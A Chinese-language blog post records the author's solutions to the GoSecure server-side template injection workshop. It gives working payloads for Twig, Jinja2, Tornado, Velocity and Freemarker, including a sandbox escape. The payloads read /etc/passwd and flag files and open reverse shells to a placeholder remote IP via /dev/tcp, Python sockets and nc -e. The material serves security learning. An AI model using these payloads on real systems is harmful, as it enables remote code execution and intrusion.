 ```yaml
---
layout: post
title:  Learning SSTI with gosecure
subtitle: Gosecure的SSTI环境学习记录
tags: [ssti,websec]
---
```


## 环境地址
gosecure 的ssti教程地址[template-injection-workshop](https://gosecure.github.io/template-injection-workshop/#0)

实际请去掉{\{ 和 {\% 中的\。


## LAB 1: Twig (PHP)
```
email={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("/bin/bash -c \"/bin/bash -i >%26 /dev/tcp/your_remote_ip/port 0>%261\"")}}&submit=
```
原理可以参考[Twig SSTI](https://github.com/EdOverflow/bugbountywiki/wiki/SSTI)。  

问题：
直接bash -i /dev/tcp/ip/port 的时候，报错"/dev/tcp no such file or directory"，搜索发现是因为使用的是exec函数，不能直接处理重定向。参考[/dev/tcp](https://stackoverflow.com/questions/36022331/bash-i-dev-tcp-127-0-0-1-1234-01)，使用`bash -c`可以成功。


## LAB 2: Jinja2 (Python)
```
name={\{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd','r').read()}}&org=1&phone=33&email=44
```
查找`subprocess.Popen`
```
{\% for item in ''.__class__.__mro__[2].__subclasses__()%}
        {\%- if item.__name__ == 'Popen' -%}
        {\{loop.index0}}{\{item}}
{\%- endif -%}
    {\% endfor %}
```

shell
```
{\{''.__class__.__mro__[2].__subclasses__()[245](["/bin/bash","-c","/bin/bash -i >%26 /dev/tcp/your_remote_ip/port 0>%261"])}}
```

## LAB 3: Tornado (Python)

```
{\%import subprocess,socket,os%}{\{s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)}}{\{s.connect(("your_remote_ip",port))}}{\{os.dup2(s.fileno(),0)}}{\{ os.dup2(s.fileno(),1)}}{\{ os.dup2(s.fileno(),2)}}{\{p=subprocess.call(["/bin/sh","-i"])}}
```

```
{\%import subprocess%} {\{subprocess.Popen(["nc","your_remote_ip","port","-e","/bin/sh"])}}
```

## LAB 4: Velocity (Java)
猜密码猜了半天没有猜对，最后还是去看了一下代码才找到密码。  
检测：
```
#set($x=7*7)$x
```
```
#set($x='')#set($rt=$x.class.forName('java.lang.Runtime'))#set($chr=$x.class.forName('java.lang.Character'))#set($str=$x.class.forName('java.lang.String'))#set($ex=$rt.getRuntime().exec('cat secret/flag.txt'))$ex.waitFor()#set($out=$ex.getInputStream())#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

```
#set($x='')#set($rt=$x.class.forName('java.lang.Runtime'))#set($chr=$x.class.forName('java.lang.Character'))#set($str=$x.class.forName('java.lang.String'))#set($ex=$rt.getRuntime().exec('nc your_rermote_ip port -e /bin/sh '))$ex.waitFor()
```

## LAB 5: Freemarker (Java)
检测：
```
${7*7}
```

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat secret/flag.txt") }
```

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("nc your_remote_ip port -e /bin/sh  ") }
```

## LAB 6: Freemaker (Sandbox escape)
```
<#list .data_model as key, object_test>

<b>Testing "${key}":</b><br/>
<#attempt>

<#assign classloader=object_test.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>

Shell ! ( 
${dwf.newInstance(ec,null)("nc your_remote_ip port -e /bin/sh")}
)

<#recover>
failed
</#attempt>

<br/><br/>
</#list>
```

## 总结
经过案例练习，了解了ssti的实际场景和检测方式。实际利用一方面是积累利用方式，另一方面需要了解语言特性才有可能找到gadget。  

感谢网络上各位的分享。

* [Template Injection in Action](https://gosecure.github.io/template-injection-workshop/)
* [Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection)
